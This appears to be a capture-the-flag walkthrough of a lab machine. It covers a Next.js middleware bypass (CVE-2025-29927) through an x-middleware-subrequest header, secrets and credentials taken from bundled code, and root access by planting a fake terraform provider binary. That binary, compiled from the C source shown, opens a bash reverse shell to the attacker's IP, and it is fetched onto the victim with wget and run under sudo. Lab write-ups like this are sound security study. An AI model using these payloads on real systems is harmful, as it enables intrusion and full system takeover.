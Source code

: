 ![[IMG-20250825192312409.png]]
## Foothold

### [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250825192312472.png]]

![[IMG-20250825192312635.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250825192312724.png]]

![[IMG-20250825192312815.png]]

![[IMG-20250825192312925.png]]

![[IMG-20250825192313002.png]]



![[IMG-20250825192313077.png]]

![[IMG-20250825192313147.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

![[IMG-20250825192313265.png]]

```
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
```

![[IMG-20250825192313327.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```

## User Flag

```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825192313380.png]]

## Root Flag

### Analyse

![[IMG-20250825192313517.png]]

![[IMG-20250825192313635.png]]

### Exploit

[Doc Terraform](https://developer.hashicorp.com/terraform/cli/config/environment-variables)

![[IMG-20250825192313713.png]]

Load a config file custom.

![[IMG-20250825192313763.png]]

### Attacker machine

```bash
gcc main.c -o terraform-provider-examples
python3 -m http.server 8000
nc -lvnp 4444
```

main.c:
```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.141/4444 0>&1", NULL);
    return 0;
}

```

### Victim machine

```bash
wget http://10.10.14.141:8000/terraform-provider-examples
chmod +x terraform-provider-examples
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```

![[IMG-20250825192313844.png]]

![[IMG-20250825192313920.png]]




